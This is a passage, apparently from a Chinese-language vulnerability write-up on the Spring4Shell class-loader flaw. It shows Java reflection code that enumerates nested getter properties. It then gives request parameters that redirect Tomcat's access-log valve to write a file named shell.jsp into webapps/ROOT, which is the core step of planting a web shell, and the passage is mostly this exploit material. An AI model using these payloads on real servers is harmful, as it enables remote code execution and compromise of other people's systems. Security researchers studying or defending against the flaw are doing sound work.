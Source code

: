 ```plain
            for (Method m : allMethods) {
                if (!m.getName().startsWith("get")) {
                    continue;
                }
                if (!m.toGenericString().startsWith("public")) {
                    continue;
                }
                Class<?>[] pType  = m.getParameterTypes();
                if(pType.length!=0) continue;
                if(m.getReturnType() == Void.TYPE) continue;
                m.setAccessible(true);
                Object o = m.invoke(instance);
                if(o!=null)
                {
                    if(set.contains(o)) continue;

                    processClass(o, set, poc+"."+m.getName().substring(3,4).toLowerCase()+m.getName().substring(4));
                }
            }
        } catch (IllegalAccessException | InvocationTargetException x) {
            x.printStackTrace();
        }
    }
```

可以发现以下属性：

```plain
class.classLoader.resources.context.parent.pipeline.first.directory =
class.classLoader.resources.context.parent.pipeline.first.prefix =
class.classLoader.resources.context.parent.pipeline.first.suffix = 
class.classLoader.resources.context.parent.pipeline.first.fileDateFormat =
```

组合使用即可在指定文件位置，创建一个指定后缀名的文件

具体怎么发现的就不提了，因为 Struts2 S2-020 漏洞中就有这样的利用方式，可以参考：[https://cloud.tencent.com/developer/article/1035297](https://cloud.tencent.com/developer/article/1035297)

不过与上文不同的是，我觉得 EL 表达式的方法更好用，依次提交以下请求：

```plain
class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT
class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
```